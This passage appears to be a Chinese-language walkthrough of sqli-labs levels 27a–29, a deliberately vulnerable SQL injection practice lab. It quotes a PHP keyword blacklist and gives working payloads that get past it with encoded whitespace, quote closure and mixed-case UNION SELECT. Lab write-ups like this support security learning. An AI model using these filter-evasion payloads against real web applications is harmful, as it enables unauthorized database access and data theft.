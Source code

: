         

## Less-28

    过滤规则
    function blacklist($id){
    $id= preg_replace('/[\/\*]/',"", $id);                        //strip out /*
    $id= preg_replace('/[--]/',"", $id);                        //Strip out --.
    $id= preg_replace('/[#]/',"", $id);                                //Strip out #.
    $id= preg_replace('/[ +]/',"", $id);                            //Strip out spaces.
    $id= preg_replace('/[ +]/',"", $id);                            //Strip out spaces.
    $id= preg_replace('/union\s+select/i',"", $id);              //Strip out UNION & SELECT.
    return $id;
    }
    
        

这里过滤了空格可以使用前面的编码绕过，过滤了注释，可使用闭合绕过，过滤了UNION+SELECT可以使用双写嵌套绕过也可以使用编码代替+

    请求方式 get
    
    闭合方式 ')
    
    攻击测试 ?id=-1') union%0bselect%0b1,2,3 ||('1')=('2
    
    注入方式 联合，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201218183701883.png)

## Less-28a

    过滤规则比上一个还少
    
    请求方式 get
    
    闭合方式 ')
    
    攻击测试 ?id=-1') union%0bselect%0b1,2,3 ||('1')=('2
    
    注入方式 联合，布尔，延时](https://img-blog.csdnimg.cn/20201218175220349.png)
    
        

## Less-27a

    请求方式 get
    
    闭合方式 "
    
    攻击测试 ?id=-1"uniOn%0bsElect%0b1,2,3 ||'1
    
    注入方式 联合，布尔，延时
    
        

## less-29

    if(isset($_GET['id'])){
    $qs = $_SERVER['QUERY_STRING']; //获取?后面的值
    $hint=$qs;
    $id1=java_implimentation($qs);
     